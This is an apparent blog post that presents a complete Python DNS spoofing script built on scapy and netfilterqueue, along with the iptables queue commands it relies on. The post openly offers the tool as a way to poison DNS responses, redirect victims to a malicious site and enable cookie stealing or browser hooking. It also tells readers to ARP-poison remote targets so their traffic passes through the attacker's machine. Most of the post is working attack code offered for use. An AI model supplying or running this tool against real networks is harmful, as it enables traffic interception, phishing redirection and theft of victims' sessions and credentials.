 ```yaml
---
title: DNS Spoofer
date: 2021-06-28 10:45:47 +07:00
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Poison DNS responses.
---
```


<p align="left">
 <img src="https://external-preview.redd.it/SRVKUe2MGSCBVB56FwBzwFZE6uxGaNZ_Vknx5vioVAw.png?auto=webp&s=b21e5b8bde6eed10e5ef54a188ebf0840e0bf8b4">
</p>



## This is a python script that poisons all DNS responses flowing though the host machine to successfully spoof a target site and redirect the victim to a malicious site of chosing.

- We use `IPTABLES` to build a **queue** to intercept traffic. Based on INPUT(inboud traffic),OUTPUT(outbound traffic) and FORWARD(traffic from remote hosts).
The program automatically runs these commands, if it dosen't work for some reason, run the following commands to build a queue alongside when running the program -
    > `iptables -I INPUT -j NFQUEUE --queue-num 0` --> Intercept Queue for inbound traffic
    
    > `iptables -I OUTPUT -j NFQUEUE --queue-num 0` --> Intercept Queue for outbound traffic
    
    > `iptables --flush` --> flush rules after completion
- We filter the traffic like an intercepting proxy would to filter and modify DNS responses for the target site to redirect the victim to a malicious site of the attackers choosing. Many avenues of attacks can be performed like browser hooking, cookie stealing etc.
- To spoof a remote victim replace the 2nd iptables command, ARP Poison the victim to redirect all DNS traffic through our host machine and proceed as above:
    > `iptables -I FORWARD -j NFQUEUE --queue-num 0` -->  Intercept Queue for inbound traffic

### CODE:

```python
#!/usr/bin/env python

import scapy.all as scapy
import netfilterqueue
import subprocess
import argparse

def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-r", "--redirect-host", dest="host", help="Redirect DNS requests to this Site/Host")
    parser.add_argument("-s", "--site", dest="site", help="Target Site to DNS Spoof")
    options = parser.parse_args()
    if not options.host:
        # code to handle error
        parser.error("\n[-] Please specify a valid Host,  use --help for info.")
    if not options.site:
        # code to handle error
        parser.error("\n[-] Please specify a valid site to spoof,  use --help for info.")
    return options

# Use get_payload() method to view fields for netfilterqueue objects
def process_packet(packet):
    # Cloning and converting to scapy packet
    scapy_packet = scapy.IP(packet.get_payload())
    # DNSQR - DNS request / DNSRR - DNS request
    if scapy_packet.haslayer(scapy.DNSRR):
        # Filter Question Record for site name
        qname = scapy_packet[scapy.DNSQR].qname
        if options.site in qname:
            print("[+] Spoofing target: " + options.site)
            # Create DNS response
            answer = scapy.DNSRR(rrname=qname, rdata=options.host)
            scapy_packet[scapy.DNS].an = answer
            # Setting no of DNS responses
            scapy_packet[scapy.DNS].ancount = 1
            # Remove these fields and let Scapy recalculate them automatically
            del scapy_packet[scapy.IP].len
            del scapy_packet[scapy.IP].chksum
            del scapy_packet[scapy.UDP].chksum
            del scapy_packet[scapy.UDP].len
            # Copying modified attributes to the original packet
            packet.set_payload(str(scapy_packet))
    # Forward packet to target
    packet.accept()

def iptables_set(queue_num):
    # os cmds to change add IPTABLES to setup a queue with queue-num 0
    subprocess.call(["sudo", "iptables", "-I", "INPUT", "-j", "NFQUEUE", "--queue-num", queue_num])
    subprocess.call(["sudo", "iptables", "-I", "OUTPUT", "-j", "NFQUEUE", "--queue-num", queue_num])
    print("[!] IPTABLE rules set succesfully! \n")

def iptables_reset():
    # os cmds to change add IPTABLES to setup a queue with queue-num 0
    subprocess.call(["sudo", "iptables", "--flush"])
    print("[!] IPTABLE rules reset succesfully! \n")


print("""
___  _  _ ____    ____ ___  ____ ____ ____ ____ ____ 
|  \ |\ | [__     [__  |__] |  | |  | |___ |___ |__/ 
|__/ | \| ___]    ___] |    |__| |__| |    |___ |  \ 
                                                                                                                                                                                           
      """)

try:
    options = get_arguments()
    print("[-] [NOTE:] To sniff a target remote system, ARP Poison the target's cache to allow all DNS requests to flow through this machine\n\n")
    queue_num = input("[!] Setup IPTABLES rules with a queue number.\n - Enter a queue number: ")
    print("\n\n******************************************************************************************")
    print("[+] Spoofing all DNS traffic flowing through this machine using configured IPTABLE queues.")
    print("******************************************************************************************\n\n")
    # Creating instance of netfilterqueue obj
    queue = netfilterqueue.NetfilterQueue()
    # Bind to created queue using iptables; process_packet-->callback()
    queue.bind(queue_num, process_packet)
    queue.run()
except KeyboardInterrupt:
    print("\n[-] Detected CTRL + C ......\n")
    iptables_reset()
```

### OUTPUT:

__Attacker:__

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/DnsSpoofer/arpspoof1.png)

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/DnsSpoofer/dnspoof1.png)

__Victim:__

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/DnsSpoofer/dnspoof2.png)

